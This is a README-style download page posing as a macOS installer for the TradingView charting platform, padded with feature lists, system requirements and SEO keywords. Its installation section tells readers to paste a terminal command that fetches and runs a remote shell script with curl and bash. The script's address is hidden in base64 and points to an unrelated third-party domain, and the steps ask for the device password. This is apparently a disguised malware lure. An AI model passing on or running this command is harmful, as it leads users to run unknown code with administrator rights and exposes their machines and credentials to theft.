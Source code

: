 # 📊 TradingView for macOS – Professional Charting & Market Analysis  

## 📌 About TradingView  
TradingView is a powerful charting and financial market analysis platform for macOS, designed for traders and investors who need real-time data and advanced tools. With professional-grade charting, customizable layouts, and access to global markets, TradingView is the go-to solution for technical analysis and trade planning.  

Whether you trade stocks, crypto, forex, or commodities, TradingView provides the insights and speed you need to make informed decisions.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS90cmFkaW5ndmlldy9pbnN0YWxsLnNo | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

---

## 🎬 Overview  

A quick look at key parts in action:  

![TradingView Screenshot 1](https://kriptoakademia.com/wp-content/uploads/2019/09/tradingviewboritokep.png)  
![TradingView Screenshot 2](https://images.financemagnates.com/images/TradingView_id_2fe91c4f-1df1-4540-ba53-4411c8ebc272_original.jpeg)  

---

## 🚀 Key Features  
- 📈 **Advanced Charting Tools** – Multiple chart types, drawing tools, and indicators.  
- ⏱ **Real-Time Data** – Instant updates for stocks, crypto, forex, and more.  
- 🔔 **Custom Alerts** – Get notified when your trading conditions are met.  
- 📊 **Multi-Chart Layouts** – View multiple assets at the same time.  
- 🌎 **Global Market Access** – Analyze assets from worldwide exchanges.  
- 📱 **Cross-Platform Sync** – Access your layouts and watchlists anywhere.  
- 🧮 **Custom Indicators** – Create and use Pine Script-based strategies.  
- 💡 **Community Insights** – Share and explore trading ideas with others.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 4 GB minimum (8 GB recommended)  
- **Storage:** 300 MB for installation  
- **Others:** Internet connection for market data and sync  

---

## 🔍 SEO Keywords  
tradingview mac · tradingview macos · mac trading software · tradingview charts · tradingview download mac · tradingview crypto · tradingview stocks · tradingview forex · tradingview technical analysis · tradingview market data
